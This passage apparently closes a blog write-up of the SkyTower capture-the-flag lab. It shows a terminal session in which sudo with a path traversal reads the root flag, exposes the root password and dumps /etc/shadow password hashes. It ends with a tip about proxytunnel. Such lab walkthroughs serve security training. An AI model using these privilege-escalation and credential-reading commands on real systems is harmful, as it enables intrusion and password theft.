 ```bash
dhclient
ls
vi login.php 
halt
sara@SkyTower:~$ sudo -u root /bin/ls /accounts/../root/
flag.txt
sara@SkyTower:~$ sudo -u root /bin/cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
sara@SkyTower:~$ sudo -u root /bin/cat /accounts/../etc/shadow
root:$6$rKYhh57q$AVs1wNVSbE5K.IU1Wp9l7Ndg3iPlB7yczctQD6OL9fBZir2ppGDA6v0Vx17xjg.b3zu6mkAVpEN2BuG3wvS2l/:16241:0:99999:7:::
daemon:*:16241:0:99999:7:::
bin:*:16241:0:99999:7:::
sys:*:16241:0:99999:7:::
sync:*:16241:0:99999:7:::
games:*:16241:0:99999:7:::
man:*:16241:0:99999:7:::
lp:*:16241:0:99999:7:::
mail:*:16241:0:99999:7:::
news:*:16241:0:99999:7:::
uucp:*:16241:0:99999:7:::
proxy:*:16241:0:99999:7:::
www-data:*:16241:0:99999:7:::
backup:*:16241:0:99999:7:::
list:*:16241:0:99999:7:::
irc:*:16241:0:99999:7:::
gnats:*:16241:0:99999:7:::
nobody:*:16241:0:99999:7:::
libuuid:!:16241:0:99999:7:::
sshd:*:16241:0:99999:7:::
mysql:!:16241:0:99999:7:::
john:$6$a39powbs$ditVKZ1waa6vJEh3BG1d5jLv/uADKcl.r1kcA.XKyhNfJoiDhSdwmSZel3V5cZ/S6ec3wd8rdNA2dOznTXhl0/:16198:0:99999:7:::
sara:$6$2PvpHNG0$hbaMRd5fZhWMDHyyhGHINSy.qBHnvP4QW1k9RSwv.pQM6SoZey53C7S7aF6263ae6qx5TwVA6sahf5tebUqvY1:16198:0:99999:7:::
william:$6$c3VykdoT$qRUKl1e77skTm0sLHavRSp8mUJfMIPrJBovrXC8o9GY8/P7gpasSbvtqA0rn9.HyxjKhSVji8/CzHNFLit3GU1:16241:0:99999:7:::
sara@SkyTower:~$
```
{: .nolineno}
{: .nolineno}

> ### This machine was easy I learned about the proxytunnel command and its usage !!
{: .prompt-tip }



> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }
